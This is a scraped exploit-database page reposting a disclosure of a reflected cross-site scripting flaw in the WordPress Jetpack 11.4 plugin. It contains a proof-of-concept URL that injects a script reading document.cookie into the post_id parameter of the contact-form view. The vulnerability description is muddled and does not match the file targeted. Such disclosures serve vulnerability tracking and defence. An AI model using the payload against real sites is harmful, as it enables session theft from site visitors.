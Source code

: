 ```yaml
---
title: WordPress Jetpack 11.4 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171534&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-29
fetch_date: 2025-10-04T10:56:58.012710
---
```


# WordPress Jetpack 11.4 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress Jetpack 11.4 Cross Site Scripting

2023-03-28 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171534
# Exploit Title: Jetpack 11.4 - Cross Site Scripting (XSS)
# Date: 2022-10-19
# Author: Behrouz Mansoori
# Software Link: https://wordpress.org/plugins/jetpack
# Version: 11.4
# Tested on: Mac m1
# CVE: N/A

1. Description:
This plugin creates a Jetpack from any post types. The slider import search feature and tab parameter via plugin settings are vulnerable to reflected cross-site scripting.

2. Proof of Concept:
http://localhost/modules/contact-form/grunion-form-view.php?post_id=<script>alert(document.cookie)</script>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)